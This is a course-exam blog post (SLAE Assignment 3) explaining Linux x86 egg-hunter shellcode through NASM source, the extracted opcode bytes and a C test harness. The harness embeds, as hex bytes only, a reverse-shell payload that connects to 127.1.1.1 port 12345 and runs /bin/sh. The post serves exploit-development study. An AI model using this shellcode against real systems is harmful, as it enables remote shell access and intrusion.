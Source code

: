 ```yaml
---
layout: post
title:  "SLAE x86 Exam - Assignment 3"
categories: certs slae 
---
```



## Assignment #3 - Egg hunter
_Student ID: **PA-7854**_

The assignment indications are as follows:
* _Study about Egg hunter shellcode_
* _Create a demo that can be configurable for different payloads_


In summary this are the steps to be taken:
1. Overview
2. Code

The code is available at [my github repo](https://github.com/0xKiewicz/SLAE)

#### Overview
This was a new concept for me, so I spent some time to learn about _Egg hunters_ on [this paper](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf).
In short, it's a multi-stage shellcode. When you have a limited amount of bytes in memory and that prevents from running your whole shellcode, you can create a small chunk of code that looks for in (readable) memory for the next-larger code to be executed.
The egg is generally a series of 8 bytes (4 bytes repeated twice), so that we can identify the new piece of code. These 4 bytes need to be unique, an uncommon series of _opcodes_ is a good option, such as `0xF5F5F5F5` which states for `cmc`. 
In order to go through memory to search for the egg we need to check first if we have access to that piece of memory (otherwise we will get an _segmentation fault_), remember we do not have access to memory within the _kernel space_.
To achieve this, we can use `sigaction` syscall (as stated in previous pointed paper).
By looking at the `man page` we can see how it works:
```c
#include <signal.h>

 int sigaction(int signum, const struct sigaction *act, struct sigaction *oldact);

--snip--

       The sigaction structure is defined as something like:

           struct sigaction {
               void     (*sa_handler)(int);
               void     (*sa_sigaction)(int, siginfo_t *, void *);
               sigset_t   sa_mask;
               int        sa_flags;
               void     (*sa_restorer)(void);
           };

```

We know that `sigaction` interrupt value is `0x43` (67 decimal). This is in short what the program will do:
1. Set up _PAGE SIZE_
2. Loop until an EFAULT is not triggered
3. Loop byte by byte and look for an egg (or EFAULT)
4. Realign page size and go back to step 1
 
#### 2. Code
Here is the full code for the egg hunter:

```nasm
; Egg hunter for the Linux x86 architecture
; Leo Juszkiewicz (@_Kiewicz)
; GPL License
; $ nasm -f elf32 egg_hunter.asm -o egg_hunter.o
; $ ld -o egg_hunter egg_hunter.o
; ./egg_hunter

global _start

section .text
_start:

set_page_size:
	xor ecx, ecx	; clearing out ECX
	add cx, 0xfff	; Page size = 4095 (getconf PAGE_SIZE)

go_through:
	inc ecx		; increase ECX by 1 

	xor eax, eax	; clearing out EAX
	mov al, 0x43	; sigaction = 0x43
	int 0x80	; interruptor

	cmp al, 0xf2	; If EFAULT is reached, AL = 0xf2
	jz set_page_size; If EFAULT is reached, go back to top

	mov eax, 0xF5F5F5F5 ; Egg

	mov edi, ecx	; Address of memory into EDI before calling SCASD
	; EDI == ECX?
	scasd		; This compares by 4 bytes
	; If EDI != ECX go to top
	jnz go_through  
	; If True check next 4 bytes...
	scasd
	; If second 4 bytes didnt match go back to top
	jnz go_through 
			
	; If all bytes match...
	jmp edi
```

We will assemble and link so that we can add the shellcode to the C file and run it.
```bash
$ nasm -f elf32 egg.nasm -o egg.o
$ ld -o egg egg.o
$ for i in $(objdump -d -M intel $f | grep "^ " | cut -f2); do echo -n '\x'$i; done 
\x31\xc9\x66\x81\xc1\xff\x0f\x41\x31\xc0\xb0\x43\xcd\x80\x3c\xf2\x74\xee\xb8\xf5\xf5\xf5\xf5\x89\xcf\xaf\x75\xeb\xaf\x75\xe8\xff\xe7
```

No NULL bytes seem to appeared. Now we add both the egg with the egghunter code to the C file:
```c
#include<stdio.h>
#include<string.h>

// egg = CMC
#define egg "\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5"

unsigned char egghunter[] = "\x31\xc9\x66\x81\xc1\xff\x0f\x41\x31\xc0\xb0\x43\xcd\x80\x3c\xf2\x74\xee\xb8\xf5\xf5\xf5\xf5\x89\xcf\xaf\x75\xeb\xaf\x75\xe8\xff\xe7";

unsigned char code[] = egg "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc3\x68\x7f\x01\x01\x01\x66\x68\x30\x39\x66\x6a\x02\x89\xe1\x66\xb8\x6a\x01\xb2\x10\xcd\x80\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\xfe\xc9\x79\xf8\x31\xc9\xb0\x0b\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xf1\x89\xf2\xcd\x80";
int main()
{
  printf("Shellcode egghunter lenght: %d\n", strlen(egghunter));
	printf("Shellcode code Length with egg:  %d\n", strlen(code));

	int (*ret)() = (int(*)())egghunter;

	ret();
	return 0;
}
```

Compile and done:
```bash
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
./shellcode
```
